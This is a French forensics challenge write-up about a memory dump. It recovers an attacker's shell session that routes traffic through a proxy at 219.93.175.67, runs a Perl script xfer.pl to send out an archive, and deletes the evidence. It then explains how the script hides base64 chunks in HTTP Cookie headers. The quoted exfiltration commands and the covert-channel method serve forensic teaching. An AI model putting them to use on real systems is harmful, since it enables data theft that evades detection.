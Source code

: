 ```console
[stevev@goldfinger ~]$ export http_proxy="http://219.93.175.67:80"
[stevev@goldfinger ~]$ cp /mnt/hgfs/software/xfer.pl .
[stevev@goldfinger ~]$ ./xfer.pl archive.zip
Preparing archive.zip for transmission ......
Sending now. Patience please
Data transmission complete.
Exiting
[stevev@goldfinger ~]$ rm archive.zip
[stevev@goldfinger ~]$ unset http_proxy
[stevev@goldfinger ~]$ rm xfer.pl
[stevev@goldfinger ~]$ rm archive.zip
[stevev@goldfinger ~]$ netstat -tupan
```

Cette suite de commandes met en évidence l'utilisation d'un script perl qui a permis de transférer une archive zip vers une machine, et ce, après avoir défini un proxy dont l'ip commence par... 219 (quel hazard !! ;-) )  

Une recherche sur `#!/usr/bin/perl` nous permettra de retrouver les quelques scripts perls présent dans la mémoire du système. Après visualisation par hexdump et avoir affiné les offsets (`hexdump -C -s 258019329 -n 3208 challenge.mem`) on peut extraite le script avec dd (`dd if=challenge.mem skip=258019329 bs=1 count=3208 of=xfer.pl`)  

Le fichier obtenu est visible ici : [xfer.pl sur pastebin.ca](http://pastebin.ca/1070411). La coloration syntaxique est un peu cassée à la fin à la cause des backquotes mais on arrive à lire la grande majorité.  

## Le script xfer.pl  

Le script en question est pas mal pensé. Il utilise une technique de [covert channel](http://en.wikipedia.org/wiki/Covert_channel) (voyez ça comme de la [stéganographie](http://fr.wikipedia.org/wiki/St%C3%A9ganographie) réseau) qui fait passer un fichier en petits morceaux à travers l'entête `Cookie` des requêtes HTTP.  
Techniquement le fichier est d'abord encodé en base64 puis coupé en morceaux de 1236 octets. Le script a une liste d'URLs prédéfinies et il envoie une simple requête HTTP GET vers les sites en insérant le morceau de fichier encodé.  

On voit dans le code que le script a recours à la commande wget pour envoyer les données. Seulement le problème avec wget c'est qu'il est trop bien conçu. Ainsi s'il tombe sur une redirection, il va renvoyer la requête jusqu'à ce qu'il parvienne à la bonne url.  

Pour éviter les doublons, le script rajoute un indicateur dans les requêtes HTTP permettant au récepteur de déterminer si le morceau qu'il reçoit est bien la suite et non une copie du précédent.  

Pour extraire l'archive zip de ce flux caché, j'ai d'abord recréé un fichier pcap en créant un filtre sur les paquets à destination de `219.93.175.67:80` (le récepteur qui tient en plus le rôle de proxy).  

J'ai ensuite utilisé [tcpflow](http://www.circlemud.org/~jelson/software/tcpflow/) pour extraire les requêtes HTTP brutes avec la commande suivante :  

```bash
tcpflow -r agadou.pcap  -c > reqs.txt
```
